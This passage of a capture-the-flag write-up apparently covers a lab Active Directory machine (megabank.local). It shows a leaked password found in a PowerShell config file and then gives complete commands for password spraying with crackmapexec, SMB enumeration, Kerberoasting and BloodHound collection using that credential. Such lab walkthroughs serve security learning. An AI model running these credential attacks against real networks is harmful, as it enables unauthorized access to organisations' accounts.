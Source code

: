 `find . -ls`
![](https://i.imgur.com/nbe9sZE.png)

This seemed to be some kind of configuration file from Active Directory Powershell and it was leaking possible password: **4n0therD4y@n0th3r$**

![](https://i.imgur.com/7p4pncz.png)

I was pretty sure this password would pair with user **mhope** since it was found in his/hers directory but I still tried on password spraying.
### Password Spraying
Using crackmapexec for password spraying, I discovered account **mhope** pairs with the found password as expected:

`crackmapexec smb 10.10.10.172 -u sAMAccountName.txt -p '4n0therD4y@n0th3r$' --no-brute --continue-on-success`
![](https://i.imgur.com/Ova8bPh.png)

Luckily, this user had access to winrm:

![](https://i.imgur.com/66MQPfI.png)
## Privesc mhope to administrator
### SMB as mhope
I checked if account mhope has more access to different shares but it seemed it has the same access as account SABatchJobs -> **FAILED**

`smbmap -H 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'`
![](https://i.imgur.com/UXNFWcm.png)
### Kerberoasting
Now that I have valid credentials, I tried on Kerberoasting -> **FAILED**

`sudo GetUserSPNs.py megabank.local/mhope:'4n0therD4y@n0th3r$' -dc-ip 10.10.10.172 -request -save -outputfile getuserspns-mhope.out`
![](https://i.imgur.com/pRknRQe.png)
### Bloodhound
I ran bloodhound-python to collect data from the domain:

`sudo python bloodhound.py -u mhope -p '4n0therD4y@n0th3r$' -c ALL -ns 10.10.10.172 -d megabank.local`
![](https://i.imgur.com/CDrlrYS.png)

Started bloodhound and neo4j:

```bash

sudo neo4j console

bloodhound

```
